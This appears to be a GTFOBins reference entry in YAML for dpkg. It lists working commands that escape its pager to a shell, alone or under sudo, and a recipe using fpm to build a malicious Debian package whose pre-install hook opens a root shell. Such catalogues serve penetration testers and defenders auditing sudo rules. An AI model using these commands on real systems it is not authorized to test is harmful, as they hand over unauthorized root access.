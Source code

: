 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        dpkg -l
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo dpkg -l
        !/bin/sh
    - description: |
        It runs an interactive shell using a specially crafted Debian package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'exec /bin/sh' > $TF/x.sh
        fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
        ```
      code: sudo dpkg -i x_1.0_all.deb
---
```

